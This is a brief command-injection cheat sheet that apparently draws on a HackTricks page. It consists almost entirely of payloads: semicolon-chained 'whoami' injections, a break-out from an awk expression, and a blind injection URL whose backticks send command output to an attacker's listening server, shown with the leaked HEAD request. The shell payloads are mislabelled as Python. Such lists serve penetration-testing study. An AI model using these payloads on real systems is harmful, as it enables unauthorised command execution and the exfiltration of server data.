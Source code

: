 [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
**Payloads**
```Python
; whoami
```
```Python
; whoami ;
```
```Python
; whoami ; #
```
**Close logic via our controlled input, then execute**
```Python
 awk 'BEGIN {print sqrt(((-2)^2) + ((-3)^2))}'
```
```Python
3)^2))}';whoami;#
```
### Blind
```Python
http://LOCALHIP>:PORT/?=`whoami`
```
Response on listening server:
```Python
HEAD /?=www-data HTTP/1.1
```
